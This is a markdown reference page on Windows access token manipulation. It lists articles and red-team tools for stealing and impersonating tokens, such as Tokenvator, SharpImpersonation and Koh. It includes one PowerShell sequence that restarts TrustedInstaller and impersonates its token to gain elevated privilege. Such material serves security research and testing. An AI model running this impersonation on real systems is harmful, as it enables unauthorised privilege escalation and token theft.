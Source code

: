 # Token Manipulation

- [https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b](https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b)
- [https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa](https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa)
- [https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962](https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962)
- [https://xret2pwn.github.io//Access-Token-Part0x01/](https://xret2pwn.github.io//Access-Token-Part0x01/)
- [https://xret2pwn.github.io//Building-Token-Vault-Part0x02/](https://xret2pwn.github.io//Building-Token-Vault-Part0x02/)




## Trusted Installer Token

- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1)
- [https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1](https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1)

```
PS > Install-Module -Name NtObjectManager -Confirm:$false
PS > Restart-Service TrustedInstaller
PS > $procId = (Get-Process TrustedInstaller).Id
PS > $token = Get-NtTokenFromProcess -ProcessId $procId
PS > $current = Get-NtThread -Current -PseudoHandle
PS > $ctx = $current.Impersonate($token)
PS > $impToken = Get-NtToken -Impersonation
PS > $impToken.Groups
```




## Tools

- [https://github.com/dievus/msImpersonate](https://github.com/dievus/msImpersonate)
- [https://github.com/magnusstubman/tokenduplicator](https://github.com/magnusstubman/tokenduplicator)



### Tokenvator

- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/)
- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/)
- [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)



### SharpImpersonation

- [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- [https://github.com/S3cur3Th1sSh1t/SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation)



### Koh

- [https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6](https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6)
- [https://github.com/GhostPack/Koh](https://github.com/GhostPack/Koh)
